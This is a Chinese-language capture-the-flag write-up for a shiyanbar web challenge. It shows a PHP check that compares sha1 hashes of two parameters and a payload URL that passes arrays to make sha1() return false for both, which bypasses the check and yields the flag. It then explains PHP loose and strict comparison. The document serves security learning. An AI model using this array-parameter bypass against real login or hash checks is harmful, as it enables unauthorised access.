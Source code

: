 ### 记sha1函数的一次绕过
>题目名：FALSE

>题目来源http://www.shiyanbar.com/ctf/1787

>通关地址：http://ctf5.shiyanbar.com/web/false.php
#### 源码
```php
<?php
if (isset($_GET['name']) and isset($_GET['password'])) {
    if ($_GET['name'] == $_GET['password'])
        echo '<p>Your password can not be your name!</p>';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
      die('Flag: '.$flag);
    else
        echo '<p>Invalid password.</p>';
}
else{
	echo '<p>Login first!</p>';
?>

```

#### 分析
该页面需要提交name和password两个参数。

若想获得flag，要求两个参数的值必须不相等。同时，两个参数通过sha1函数加密后的返回值必须相同。

表面上两个条件是矛盾的，但是sha1函数不能加密数组，数组作为参数会返回false。利用这个条件即可绕过限制得到flag。

#### payload
```
http://ctf5.shiyanbar.com/web/false.php?name[]=name&password[]=pass
```

#### 拓展内容
关于php中的等号

两个=是进行比较，但是只比较值而不会比较数据的类型。如果两个数据的类型不一样的话，会先转换成一样的。
```php
<?php
    $s = "abs";
    if($s==0)
        echo "true";
    else
        echo "false";
#该例子打印的结果为true，对于字符串，和数字比较时先转换成数字。
#转换规则是，从字符串开头开始，到第一个非法字符串结束，得到转换的结果。如果开头就是发发字符串，则转换为0。
?>
```
三个=也是进行比较，但是既比较类型，又比较值。
```php
<?php
    $s = "abs";
    if($s===0)
        echo "true";
    else
        echo "false";
#该例子打印的结果为flase，因为两个比较的变量的类型不同
?>
```


